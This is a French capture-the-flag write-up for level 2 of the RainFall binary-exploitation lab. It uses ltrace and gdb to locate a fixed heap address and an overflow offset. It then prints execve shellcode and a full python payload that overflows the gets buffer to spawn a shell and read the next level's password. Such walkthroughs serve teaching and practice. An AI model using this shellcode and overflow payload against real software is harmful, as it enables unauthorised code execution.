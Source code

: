 # Level 2

En ouvrant level2 avec cutter on voit que le main appelle une fonction p qui contient comme pour l'exercice precedant un gets exploitable, mais cette fois-ci le programme est protégé on ne peut donc pas exploiter la stack. Nous allons donc exploiter le heap (le tas).

La fonction fait un strdup du retour de gets, et on remarque que l'adresse de retour du malloc est fix, qu'on peut peut recupere grace a ltrace.

```
level2@RainFall:~$ ltrace ./level2
__libc_start_main(0x804853f, 1, 0xbffff804, 0x8048550, 0x80485c0 <unfinished ...>
fflush(0xb7fd1a20)                                                             = 0
gets(0xbffff70c, 0, 0, 0xb7e5ec73, 0x80482b5l
)                                  = 0xbffff70c
puts("l"l
)                                                                      = 2
strdup("l")                                                                    = 0x0804a008
+++ exited (status 8) +++
level2@RainFall:~$ 
```
Maintenant nous voulons écrire notre code pour que l'adresse mémoire retourner par le malloc soit en réalité notre exploitation. On trouve un shell code permettant de faire ça ici : http://shell-storm.org/shellcode/files/shellcode-575.php 
```
\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80
```
Il nous reste a trouver la limite du malloc pour ce fair nous allons tenter de fair segfault le programe et recupere le nombre de character a rentre grace un buffer overflow generateur qu'on trouve ici : https://wiremask.eu/tools/buffer-overflow-pattern-generator/ , il suffit ensuite d'entre la chaine donner en utilisant *gdb* qui nous donnera l'addresse du segfault.
```
level2@RainFall:~$ gdb ./level2 
GNU gdb (Ubuntu/Linaro 7.4-2012.04-0ubuntu2.1) 7.4-2012.04
Copyright (C) 2012 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.  Type "show copying"
and "show warranty" for details.
This GDB was configured as "i686-linux-gnu".
For bug reporting instructions, please see:
<http://bugs.launchpad.net/gdb-linaro/>...
Reading symbols from /home/user/level2/level2...(no debugging symbols found)...done.
(gdb) run
Starting program: /home/user/level2/level2 
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0A6Ac72Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag

Program received signal SIGSEGV, Segmentation fault.
0x37634136 in ?? ()
(gdb) 
```
Comme dans le level précédent on créé donc notre payload qui sera donné en entré au programme. On commence donc par le shellcode qui permet de casser le binaire, puis on y ajoute des caractères quelconques pour atteindre la limite de mémoire et pour finir on y injecte l'adresse mémoire à laquelle on veut retourner notre programme. On lance le programme avec notre payload.
```
level2@RainFall:~$ python -c 'print "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80" + "a"
 * 59 + "\x08\xa0\x04\x08"' > /tmp/payload
level2@RainFall:~$ cat /tmp/payload - | ./level2
 X�Rh//shh/bin��1�̀aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa�
whoami
level3
cat /home/user/level3/.pass
492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
```